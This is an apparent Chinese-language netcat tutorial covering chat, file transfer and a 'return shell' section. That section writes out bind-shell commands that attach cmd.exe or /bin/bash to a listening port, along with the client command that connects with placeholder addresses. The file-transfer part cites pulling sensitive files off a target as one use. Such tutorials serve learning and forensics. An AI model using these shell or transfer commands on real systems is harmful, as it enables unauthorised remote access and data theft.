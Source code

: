 ```
nc [remote_addr] [remoteport]
```

[![gfwbKf.png](https://z3.ax1x.com/2021/05/18/gfwbKf.png)](https://imgtu.com/i/gfwbKf)

这里仅仅实现了一个简单的通信系统，并不能对机器进行命令执行。

### 返回shell的使用

创建一个服务端的方法：

```
nc -l -p [localport] -e cmd.exe  #windows

nc -l -p [localport] -e /bin/bash  #linux
```

[![gfrgWd.png](https://z3.ax1x.com/2021/05/18/gfrgWd.png)](https://imgtu.com/i/gfrgWd)

创建客户端方法(连接服务器)：  要想连接到服务器记得开放了端口!

```
nc [remote_addr] [remoteport]
```

[![gfrhOP.png](https://z3.ax1x.com/2021/05/18/gfrhOP.png)](https://imgtu.com/i/gfrhOP)

这里能实现一个返回shell的通信。

开放端口、关闭端口：

```
ufw allow 4444
ufw deny 4444
```

### netcat文件传输

#### 应用场景

##### 1.取证

当目标机器被黑客攻击之后，取证人员可用利用``nc``的文件传输功能来获取目标机器上的文件内容。避免直接在目标机器上进行操作造成取证误差。

##### 2.单纯获取目标机器敏感文件

当目标机器上有一些文件内容，无法正常下载时，可用利用``nc``进行文件传输。

#### 传输原理

nc中的数据传输，使用的是标准的输入、输出流，所以可用直接利用命令行来进行操作。

#### 使用方法

创建一个服务端方法：

```
nc -l -p [localport] > outfile

root@localhost:~# nc -l -p 4444 > outfile
```
